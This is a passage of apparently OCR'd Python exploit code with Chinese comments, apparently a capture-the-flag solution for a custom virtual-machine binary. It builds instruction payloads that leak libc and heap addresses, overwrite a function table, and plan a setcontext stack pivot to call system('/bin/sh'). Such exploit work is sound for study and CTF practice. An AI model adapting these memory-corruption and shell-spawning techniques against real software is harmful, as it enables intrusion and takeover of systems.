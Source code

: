 ```py
    return get_instr(9,load_addr)+get_instr(1,sub_val_addr)+get_instr(15,write_addr)+get_instr(9,load_addr+2)+get_instr(15,write_addr+2)+get_instr(9,load_addr+4)+get_instr(15,write_addr+4)

def load_sub_write_qword_heap(load_addr,sub_val_addr,write_addr):
    return get_instr(9,load_addr)+get_instr(3,sub_val_addr)+get_instr(15,write_addr)+get_instr(9,load_addr+2)+get_instr(15,write_addr+2)+get_instr(9,load_addr+4)+get_instr(15,write_addr+4)
# **第二阶段用 throw 把 libc addr 整到堆上然后去 leak!**
# 第二阶段劫持到 0xa8 吧 不然现在偏移有点紧张
payload = get_instr(2,0x158)+get_instr(5,0)+get_instr(8,0x150)+get_instr(2,0x152)+get_instr(13,0)# cover to \xf0 长度为8
payload2 = load_and_write_dir(0xfc0,0x1c0)+load_and_write_dir(0xfc2,0x1c2)+load_and_write_dir(0xfc4,0x1c4)+load_and_write_dir(0xfc6,0x1c6)
# 修改 heap_addr 最后一位 0xa8a8 ^ 0xfbf
payload2 += get_instr(8,0x110)+get_instr(2,0x116)+get_instr(5,0)+get_instr(2,0x11a)+get_instr(13,0)
payload3 = load_and_write_dir(8,0x218)+load_and_write_dir(10,0x21a)+load_and_write_dir(12,0x21c)+load_and_write_dir(14,0x21e) # leak proc
# edit proc 0x26d0 ->main 0x4c70 -> functable
payload3 += get_instr(9,0x8)+get_instr(3,0x160+50)+get_instr(15,0x218)
payload3 += get_instr(9,0x210)+get_instr(1,0x160+52)+get_instr(15,8)+load_and_write_dir(0x212,0xa)+load_and_write_dir(0x214,0xc)+get_instr(7,0)

data = p16(0)+p16(0xfff)+p16(0xffe)+p16(0xa8a8)+p16(0xf8f8) # 10
data+=p16(0xa717)+p16(0xfca)+p16(0xfcc)+p16(0xfce)+p16(0x1c8) # 20
data+=p16(0x1ca)+p16(0x1cc)+p16(0x1ce)+p16(0xb0)+p16(0x2) # 30
data+=p16(0x4)+p16(0x6)+p16(0x210)+p16(0x212)+p16(0x214) # 40
data+=p16(0x216)+p16(0)+p16(0xf000)+p16(0x6d0)+p16(34+0x160) # 50
data += p16(0x25a0)+p16(0x208 - 0x40 - 0x8)
payloads = payload.ljust(20,b"\x00")+payload3
payloads=payloads.ljust(0x4a,b"\x00")+payload2
payloads = payloads.ljust(0x150,b"\x00")+data
payloads = payloads.ljust(0x1000,b"\x00")

p.send(payloads)

# 重入 main 思路：leak system leak heap 然后修改 *vm 为 /bin/sh\x00 修改 *(_QWORD *)vm + 8LL) 为 system
# leak 0x55b31abd9348 处是 0x00007f61debdc290 （libc 为 0x7f61de7f8000 system 为 0x7f61de850740 setcontext_gadget 为 0x7f61de84298d pop_rdi 为 0x10f75b + libc_base）分配堆块起始在 0xb0 
# 我们还是 data 和 leak 分别在 0xc8 + 0x150 0xc8 + 0x200
diff = 0x38bb50
payload = get_instr(2,0x158)+get_instr(5,0)+get_instr(8,0x150)+get_instr(2,0x152)+get_instr(13,0)
offset = 0x208 - 0x30 - 0x8
payload2 = load_and_write_dir(0xfd0,0x1d0)+load_and_write_dir(0xfd2,0x1d2)+load_and_write_dir(0xfd4,0x1d4) # 堆地址
payload2 += get_instr(9,0x1d0)+get_instr(1,0x150-0x30+10)+get_instr(15,0x1d0)+get_instr(0,0x150-0x30+44) # 38 我们开始的 index 应该是73 所以要

payload2_after_jmp = get_instr(8,0x150-0x30)+get_instr(2,0x150-0x30+6)+get_instr(5,0)+get_instr(2,0x150-0x30+42)+get_instr(13,0)
# payload2 先往前跳一些再修改 heap_addr 最后一位 TODO
# offset1 为 0x88
# 一个可能的 gadget 在 0x0176F0E 是 mov rdx, [rax+38h];mov rdi, rax;call qword ptr [rdx+20h]; 此时我们 rax 指向 *vm 即是 0xc8 + 0x200
# 我们还是栈迁移 覆盖 rdx 为 rax 覆盖 rax + 0x20 为 setcontext 0x4A98D
# srop=p64(0)*4+p64(setcontext) 按照这个覆盖
# srop=srop.ljust(0x78,b"\x00")+p64(fake_stack_addr)
# srop=srop.ljust(0xa0,b"\x00")+p64(fake_stack_addr)+p64(ret) fake_stack 在 0xc8+0x300
# fake_stack_addr 是 0xc8 + 0x300 覆盖为 pop_rdi;ret + binshell_addr + system
offset1 = 0x88
payload3 = load_and_write_dir(8,0x208+offset1)+load_and_write_dir(10,0x208+offset1+2)+load_and_write_dir(12,0x208+offset1+4) # write libc address

# 改 payload3 的func_table
```